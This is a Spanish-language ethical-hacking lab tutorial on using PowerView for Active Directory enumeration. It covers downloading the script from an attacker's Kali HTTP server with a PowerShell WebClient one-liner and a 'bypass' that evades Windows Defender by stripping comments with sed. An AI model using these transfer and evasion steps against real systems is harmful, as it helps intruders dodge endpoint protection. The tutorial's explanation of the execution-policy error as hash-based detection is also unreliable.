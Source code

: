 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

En este caso vamos a ver una herramienta bastante famosa para `hacking` a parte de otras en entornos de `Windows`.

Lo primero que vamos hacer es configurar una `GPO` que aplique a los diferentes equipos dentro de nuestro `DC`.

Esto lo vamos hacer ya que en los diferentes equipos que estan dentro del dominio del `DC` no puede ejecutarse scripts de `PowerShell` por defecto como medida de seguirdad, pero en algunos casos los `Administradores` necesitan habilitar esta opcion para hacer algunos cambios en los diferentes equipos y esto se hace mediante una regla de `GPO` para que se aplique a los equipos que queramos a la vez y no tengamos que ir uno por uno.

Por lo que vamos a irnos en el `DC` al panel de `Servidor del Administrador` -> `Herramientas` -> `Administracion de directivas de grupo` -> aqui vamos a crear una `GPO` a nivel de dominio que solo afecte a nuestro dominio click derecho en `corp.local` -> `Crear un GPO en este dominio y vincularlo aqui...` -> se llamara `Script Execution Policy` -> `Aceptar` -> click derecho en el `Script Execution Policy` -> `Editar` -> como vamos a crear una `GPO` que va a estar a nivel de equipo nos iremos a `Configuracion del Equipo` -> `Directivas` -> `Plantillas administrativas` -> `Componentes de Windows` -> `Windows PoweShell` -> pulsamos doble click en `Activar la ejecuccion de scripts` -> marcamos `Habilitada` -> seleccionamos en `Directivas de ejecuccion` el `Permitir Scripts locales y scripts remotos firmados` -> `Aplicar` -> `Aceptar`.

Con esto ya estaria aplicado correctamente esta `politica`/`GPO`, ahora tendremos que reiniciar los equipos del dominio que en mi caso son 2 y se aplicaran las politicas correctamente.

### Instalación de PowerView

De mientras vamos instalar `PowerView` en nuestro `kali`.

Vamos a suponer que para la auditoria nos han proporcionado credenciales de un usuario del dominio para conectarnos de forma remota, pero sin privilegios de administrador.

En el siguiente link vamos a ver un `suit/conjunto` de herramientas para todas las fases de un `pentest` de un ejercicio de seguridad o de `hacking etico` para normalmente realizar recopilacion de informacion, explotacion, analisis de vulnerabilidades, etc... Sobre equipos de `Microsoft` todas las cosas que hace estan implementadas en `PowerShell` por lo que es muy util para nosotros.

URL = [GitHub PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

Vamos a irnos al modulo de `recon` (Reconocimiento) -> entraremos en `PowerView.ps1` en el script.

Una vez que estemos aqui dentro:

[Script PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Lo copiaremos entero y haremos lo siguiente:

```shell
nano PowerView.ps1

#Dentro del nano

<PEGAR_SCRIPT_POWERVIEW>
```

Lo guardamos y ya lo tendriamos listo en nuestro `kali`.

Vamos a probar 2 formas de enumerar un sistema `Windows` tanto con `PowerView` de forma automatizada, como de forma manual sin `PwerView` ya que en algunos casos esto peude ser detectado por antivirus o herramientas de seguridad.

Imaginemos que nos propocionan la maquina `WS01` para realizar nuestras pruebas de pentesting, vamos a probar de primeras el `PowerView` en dicha maquina de la siguiente forma:

### Transferencia de archivo .ps1 a maquina windows

Antes tendremos que realizar una pequeña configuracion ya que al reiniciar o apagar el equipo se desactiva, tendremos que darle click derecho en el `adaptador de red` -> `Ethernet` -> `Configuracion de uso compartido avanzado` -> y activar las 2 opciones `Activar la deteccion de redes` y `Activar el uso compartido de archivos e impresoras` -> `Guardar cambios` pedira credenciales de administrador, las metemos y listo.

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Con esto ya nos podremos pasar el archivo `.ps1` a la maquina `Windows` todo esto lo podremos hacer ya que tenemos acceso a dicha maquina.

Haremos el mismo proceso pero para con el `WS02`, por lo que si hacemos en un `PwerShell` lo siguiente:

```powershell
ping WS02
```

Tiene que dar `ping` y vicebersa.

Ahora nos vamos a crear en nuestro `kali` un servidor de `python3` en la misma carpeta del archivo `PowerView.ps1` para pasarnos el archivo de forma facil y sencilla, ya profundizaremos en tecnicas de `PostExplotacion` para este tipo de cosas, pero en este caso lo haremos de forma sencilla.

```shell
python3 -m http.server 80
```

Y en la maquina `Windows` buscaremos la siguiente direccion `URL` en un navegador web:

```
URL = http://<IP>/PowerView.ps1
```

Si le damos a `ENTER` veremos que se nos descarga el archivo.

O tambien lo podremos hacer desde un `PowerShell` de la siguiente forma:

```powershell
cd .\Desktop
(New-Object System.NET.WebClient).DownloadFile("http://<IP>/PowerView.ps1", "PowerView.ps1")
```

Una vez que ya tengamos el archivo en nuestro escritorio de `WS01` haremos lo siguiente.

### Prueba de forma automatica PoweView.ps1

Ahora para lanzar este script lo hariamos de la siguiente forma en un `PwerShell` del equipo `WS01`:

```powershell
. .\PowerView.ps1
```

Info:

```
. : No se puede cargar el archivo C:\Users\empleado1\Desktop\PowerView.ps1. El archivo C:\Users\empleado1\Desktop\PowerView.ps1 no está firmado
digitalmente. No se puede ejecutar este script en el sistema actual. Para obtener más información acerca de la ejecución de scripts y la configuración de la
directiva de ejecución, consulta about_Execution_Policies en https:/go.microsoft.com/fwlink/?LinkID=135170.
En línea: 1 Carácter: 3
+ . .\PowerView.ps1
+   ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Nos da un error de que puede contener archivos maliciosos y no lo ejecuta, ya que `Windows Defender` tiene guardado el `hash` de dicho fichero ya que se utiliza mucho para auditorias o practicas de `hacking etico` por lo que lo bloquea.

### Bypass Windows Defender PowerView

Lo que tendremos que hacer sera eliminar todos los comentarios del script para que no tenga esa `"firma"` y que el `hash` con el que esta identificando el `Windows Defender` no sea el mismo, por lo que lo va a tomar como un archivo legitimo, nos iremos al `kali` y pondremos lo siguiente:

```shell
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

Ahora una vez que ya hayamos eliminado todos los comentarios con este comando, nos lo volveremos a pasar al `WS01` como hicimos anteriormente, una vez que ya lo tengamos en el equipo, ejecutaremos el mismo comando de antes de `PowerShell`:

```powershell
. .\new_powerview.ps1
```

Con esto no nos aparecera nada por lo que lo ejecutamos correctamente y ya podremos utilizar `PowerView` en este equipo.
